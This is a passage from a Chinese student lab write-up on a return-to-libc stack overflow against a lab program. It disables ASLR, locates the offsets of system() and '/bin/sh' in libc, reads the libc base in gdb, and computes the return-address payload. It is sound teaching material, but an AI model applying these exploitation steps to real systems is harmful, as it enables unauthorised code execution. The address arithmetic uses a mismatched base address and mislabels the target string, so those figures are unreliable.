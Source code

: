 得到结果如下，成功得到shell！

![image-20230612205617712](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612205617712.png)

###### （2）

1.环境配置

~~~bash
sudo sysctl -w kernel.randomize_va_space=0	//关闭ASLR
gcc -fstack-protector -z noexecstack -o prog2 prog2.c  //开启Stack Guard和栈不可执行保护
~~~

![image-20230612154022745](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612154022745.png)

2.直接运行prog2发现段错误。

![image-20230612154058053](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612154058053.png)

3.创建一个input文件后能运行如下：

~~~bash
echo "" > input
./prog2
~~~

![image-20230612154938603](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612154938603.png)

4.用ldd命令查看引用的libc，查看libc中system（）函数和字符串的偏移

~~~bash
ldd prog2
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
~~~

![image-20230612161259207](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612161259207.png)

得到system()函数偏移为0x003ada0，字符串“/bin/sh”偏移为0x15b82b

5.使用gdb查看libc加载后的实际基址

~~~bash
gdb prog2 
b main 				//设置断点在main函数
run  				//运行 
info proc mappings	//查看libc加载后的实际基址
~~~

![image-20230612181422071](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612181422071.png)

得到libc加载基址为0xb7d6a000，计算出：
system函数地址：0xb7d6a000+0x0003ada0=0xb7da4da0

"bin/bash"地址：0xb7e08000+0x0015b82b=0xb7ec582b

构造shellcode：ret填充为system():0xb7da4da0，参数字符串为”bin/bash“：0xb7ec582b。
